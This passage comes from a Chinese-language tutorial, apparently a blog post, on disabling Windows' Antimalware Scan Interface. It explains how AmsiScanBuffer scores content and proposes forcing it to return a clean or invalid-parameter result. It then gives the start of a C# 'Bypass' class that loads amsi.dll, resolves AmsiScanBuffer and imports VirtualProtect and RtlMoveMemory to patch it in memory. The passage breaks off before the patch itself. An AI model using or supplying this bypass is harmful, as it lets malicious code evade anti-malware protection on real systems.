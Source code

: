 在函数执行过程中，待分析的内容会被发送到反恶意软件服务，后者会返回 `1` 到 `32762`（含）之间的一个整数。整数值越大，则代表风险越高。如果证书大于或等于 `32762`，那么就会将其判断为恶意数据，加以阻止。随后系统会根据返回的整数值来更新 `AMSI_RESULT` 变量值。

所以说我们可以让函数直接返回 0，代表 AMSI\_RESULT\_CLEAN，或者改成别的负数，代表在扫描的过程中出现了一些问题，比如说 80070057h，就代表 `HRESULT_FROM_WIN32(ERROR_INVALID_PARAMETER)`，表示参数无效，而我们如果逆向一下这个函数也会发现函数在执行开始会先检查参数，如果参数出现错误就直接返回这个错误代码。

[![](assets/1710900073-7ce8e99e654ec9717c719c8447dedbab.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240303102047-a539c286-d904-1.png)

所以我们的代码可以如下：

```plain
using System;
using System.Runtime.InteropServices;

namespace Bypass
{
    public class AMSI
    {
        [DllImport("kernel32")]
        public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
        [DllImport("kernel32")]
        public static extern IntPtr LoadLibrary(string name);
        [DllImport("kernel32")]
        public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);

        [DllImport("Kernel32.dll", EntryPoint = "RtlMoveMemory", SetLastError = false)]
        static extern void MoveMemory(IntPtr dest, IntPtr src, int size);


        public static int Disable()
        {
            IntPtr TargetDLL = LoadLibrary("amsi.dll");
            if (TargetDLL == IntPtr.Zero)
            {
                Console.WriteLine("ERROR: Could not retrieve amsi.dll pointer.");
                return 1;
            }

            IntPtr AmsiScanBufferPtr = GetProcAddress(TargetDLL, "AmsiScanBuffer");
            if (AmsiScanBufferPtr == IntPtr.Zero)
            {
                Console.WriteLine("ERROR: Could not retrieve AmsiScanBuffer function pointer");
                return 1;
            }
```